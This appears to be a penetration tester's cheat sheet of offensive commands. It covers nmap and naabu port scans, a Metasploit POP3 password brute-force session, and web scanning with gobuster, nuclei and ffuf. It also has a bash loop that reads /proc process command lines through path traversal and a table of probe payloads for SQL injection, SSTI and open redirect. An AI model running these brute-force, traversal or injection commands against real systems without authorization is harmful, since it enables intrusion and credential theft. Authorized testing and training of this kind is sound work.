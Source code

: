 ```
naabu -host hackerone.com # https://github.com/projectdiscovery/naabu

nmap -sT -p- airplane.thm -T4
nmap -T4 -n -sC -sV -Pn -p-

msf > use auxiliary/scanner/...
msf auxiliary(scanner/pop3/pop3_login) > set rhosts 192.168.1.29
msf auxiliary(scanner/pop3/pop3_login) > set user_file user.txt
msf auxiliary(scanner/pop3/pop3_login) > set pass_file pass.txt
msf auxiliary(scanner/pop3/pop3_login) > set verbose false
msf auxiliary(scanner/pop3/pop3_login) > run
```

### Web
```
gobuster dir -u https://my.target.site -w /usr/share/wordlists/dirb/big.txt

nikto -h https://my.target.site -p [port]

nuclei -target https://my.target.site -rl 4 # default script with rate limit + https://github.com/projectdiscovery/fuzzing-templates // docker run --rm projectdiscovery/nuclei:latest
nuclei -u https://my.target.site -t myscript.yaml -t myscript_2.yaml <...> -t cves/ -t Exposure/

ffuf -u https://my.target.site/FUZZ -w /path/to/your/wordlist.txt -mc 200

nf -d example.com # https://github.com/0xKayala/NucleiFuzzer

katana -u https://tesla.com # https://github.com/projectdiscovery/katana
```

### AD

### Linux

### 

```
$ for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "https://my.target.site?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```

|Findings     |Possible vector         |
|-------------|------------------------|
|/?file=      |LFI PathTraversal|
|/profile?id=2|IDOR|
|Content-Type: application/x-www-form-urlencoded <br>message={{7*7}}|SSTI|
|product_id=1001&quantity=-1|BuzLogic|
|username=admin&password=' OR '1'='1|SQLi|
|/redirect?url=http://malicious.com|OpenRedirect|
|Cookie: session=user1|Misconfig, UnsecureCookie|

### Next steps
https://book.hacktricks.xyz/

